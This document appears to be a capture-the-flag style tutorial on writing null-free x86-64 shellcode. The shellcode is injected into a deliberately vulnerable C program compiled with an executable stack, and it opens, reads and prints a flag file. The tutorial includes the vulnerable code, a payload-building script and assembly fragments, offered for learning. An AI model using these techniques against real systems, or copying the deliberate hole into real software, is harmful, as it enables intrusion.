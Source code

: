 # A Challenge
Given the following C code can we write input that will actually be executed and *do something* like read a flag?
```C 
#include <string.h>
#include <unistd.h>

int main(int argc, char* argv[]){
	char* code[250];
	memset(code, 0, 250);
	
	read(0, code, 250);
	((void*)())code)(); // treat the code as a pointer to a function and run it
	return 0;
}

```
**To make this work we have to compile with specific flags to enable executing code from the stack. DONT DO THIS IN ANY OTHER CIRCUMSTANCES THIS IS SPECIFICALLY NOT INCLUDED SO THESE KINDS OF SECURITY VULNERABILITIES ARE MITIGATED**
Saving this code as vuln1.c we can create a target vulnerable binary using: 
```sh
gcc -g -z execstack -fno-stack-protector vuln1.c -o vuln1
```

## Creating Shell code
Well, if we want to read a flag we will need to first open a file, read it, and then write to STDOUT. 
We can start trying to craft a program in assembly to do exactly this, somewhat like the cat.asm program from 0x1.

And if we want any of this to happen when we pipe a raw stream of bits into the program we will need to manipulate the 
compiled and linked assembly. 

This kind of code is often called **shellcode** and it has unique qualities. For one, shell code has to be position
independent. Since we have no control of whats happening before our code is injected it must keep track of itself 
so as to not care about things like hardcoded or specific offsets in memory which will change randomly. 

Shellcode must also have null bytes removed, otherwise our stream of bits will have a NULL termination somewhere in it and 
will be incorrectly treated as a [string](https://bista.sites.dmi.unipg.it/didattica/sicurezza-pg/buffer-overrun/hacking-book/0x2a0-writing_shellcode.html&ved=2ahUKEwi0germhZOGAxVkkIkEHQFwA0sQFnoECA4QAw&usg=AOvVaw3fNBPqA9-I-586T-RSG7tE)

I write a small shell script for testing out different Assembly, take the compiled output and remove the NULL bytes,
write this data to a "payload" file, and then pip that payload into the vuln1 program:

```bash
#!/bin/bash

binaryPayload=$1
targetBinary=$2

nasm -f elf64 $1 -o runme.o
ld -s runme.o -o runme
rm runme.o

shellcode=$(objdump -d runme | grep -Po '\s\K[a-f0-9]{2}(?=\s)' | sed 's/^/\\x/g' | perl -pe 's/\r?\n//' | sed 's/$/\n/')

echo 'open("payload","wb").write(b'"'"$shellcode"'"')' >> maker.py
python3 maker.py 
rm maker.py

# now pipe the shell code into our target and trace the system calls with strace
cat payload | strace ./$targetBinary
#EOF
```

Alright before reading a flag maybe lets try something simple, like.... printing a message to the console? 
We wrote code for echoing user supplied arguments in 0x1, but this is a bit different (also 64bit now). 

First thing we need to do is move the bytes of our message into memory. The write syscall is exepecting 
a pointer to be in rdi, to this message. The rdx register needs the length of our output. 
We also need to put out file descriptor for STDOUT (just 1) into rbx, and then move the value for the WRITE
syscall into rax. So can we try this?: 
```nasm
section .text
	global _start 
	
_start: 
	; move our message into memory
	xor rdi, rdi
	xor rcx, rcx 
	add rdi, 0x33323130 ;'0123'
	mov [rsi], rdi
	; the write syscall
	mov rdx, 5
	mov rax, 1
	mov rdi, 1
	syscall
	; exit
	xor rax, rax
	add al, 60
	syscall
```

*Lets try out our testshell script and save this as echo.asm:*


![echooo](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/helloShell.png)


Awesome it worked! Okay so how about trying to read a flag or something?... more syscall xD 

This one required a bit of thinking, because unlike the cat.asm program in 0x2 we cant setup
a local buffer to read into. But at least we already know how to move the a given string around! 

So first we meed to move the name of the file "flag.txt" into memory, and open it. That should be similar to the cat.asm program
but slightly borrowing from what we just did? 
```nasm
_start: 
	xor rdi, rdi
	xor rcx, rcx
	mov rdi, 0x7478742e67616c66 	;txt.galf 
	mov [rdx], rsi
	xchg rdi, rdx
```
So we already have our filename now in rdi! Now we just need to move the READ syscall number (2) into RAX and the file permissions mask into RDX
```nasm
	add al, 2
	xor rsi, rsi 
	mov rdx, 0777o
```
If were to just add an exit after this we should be able to see in strace whether we've opened 
the correct file for reading though: 

![missingNull](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/openFlagNoNullTermination.png)


Ahh intersting, the filename is getting mangled somehow. Well flag.txt is 8 bytes,
and at 9th we have a f instead of a null byte. Well f in hex is 0x66, so lets just subtract that value:

![fopen](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/FixingFileOpen.png)

**AWESOME IT WORKED!** 

By the way to figure out which registers need which arguments for every syscall you can find a table like this 

![syscalls](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/syscall_conventions.png)

from a website like [this](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)

So it looks like now we need to move the pointer to the file we just opened into rdi. Well using GDB I can see that its left in rax after the syscall.
Because we can't create a local buffer we could just use the space of the filename we created to hold the contents of what we read from the file?
So lets move that for the stack into rsi. Finally we need to move the length of the message into rdx (we made the flag file so we know its 27 bytes): 

![fileRead](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/FileRead.png)

**AYYY IT WORKED!** 

Okay now we just need to print the result! We can do that with the write syscall, which expects rdi to have pointer file (in this case STDOUT or 1).


Lets take a look at how we can debug this from GDB, here we can see the disassembly of the vuln1 main function:

![disass](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/disassMain.png) 

And also set a breakpoint for where our code will be called. We can run out program and pipe in the results from "payload" file using this syntax:
`r < payload` in the GDB terminal.

From here we can use stepi once to hop into our shellcode! 

![gdb](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/StepIn.png)

Okay now lets trying to use this visibilty to figure out how we can close the loop and actually write the contents of this flag file out. 
Stepping through our shellcode we can see that after the READ syscall we have the flag contents in RSI, which is already where we need our pointer to be for the WRITE CALL! 
The size is already in RDX from the READ call (which is the same place as WRITE), so all we need to do is:
	- Adjust RAX to be 1 for the WRITE syscall
	- change the file descriptor in RDI to 1 now because we want to write to STDOUT (before we read from an actual file)

![soClose](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/SoClose.png) 

well looking at GDB we can see RAX is 0x1b, so lets just subtract 0x1a. And then we can move 1 into rdi. And Voila!

![yay](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/success.png)
